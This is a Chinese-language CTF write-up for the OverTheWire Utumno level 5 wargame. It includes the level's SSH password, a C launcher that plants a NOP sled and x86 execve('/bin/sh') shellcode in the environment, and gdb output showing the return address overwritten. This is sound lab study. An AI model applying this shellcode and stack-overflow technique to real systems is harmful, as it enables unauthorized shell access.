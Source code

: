 ## Utumno 05

**SSH :** ssh utumno5@utumno.labs.overthewire.org -p 2227

**Pass :** woucaejiek

依旧选择dump下来分析。

```bash
$ ./crawl.sh 5 woucaejiek
sshpass -p woucaejiek scp -P 2227 utumno5@utumno.labs.overthewire.org:/utumno/utumno5  .
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

[*] '/home/z1933/workplace/vbshare/ctf/utumno5'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

和第二个有点像，用IDA分析出来流程就是先检查argc要为0,然后调用hihi函数将argv[10]复制到一个buf[12]局部变量里面去，它设置的长度还保证能够覆盖返回地址。

直接上号，按照第二个同样的方法来弄。不能说完全相似，只能说一模一样。

```bash
utumno5@utumno:/tmp/eag$ cat ./setup.c 
#include <unistd.h>

int main(){
            char *argv[] = { NULL };
                    char *envp[] = { "0", "1", "2","3","4","5","6","7","\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80","aaaabbbbccccAAAABBBB", NULL };
                            execve("/utumno/utumno5", argv, envp);
}

utumno5@utumno:/tmp/eag$ gdb setup
(gdb) r

Starting program: /tmp/eag/setup 
process 24509 is executing new program: /utumno/utumno5
Here we go - aaaabbbbccccAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()

(gdb) x/1200wx $ebp

...
0xffffdf24:	0x00000000	0x63000000	0xe8872b30	0xad00e522
0xffffdf34:	0xb1ee0e45	0x69c4bc98	0x00363836	0x00310030
0xffffdf44:	0x00330032	0x00350034	0x00370036	0x90909090
0xffffdf54:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdf64:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdf74:	0x90909090	0x90909090	0x90909090	0x90909090
---Type <return> to continue, or q <return> to quit---
0xffffdf84:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdf94:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdfa4:	0x90909090	0x90909090	0x90909090	0x90909090
```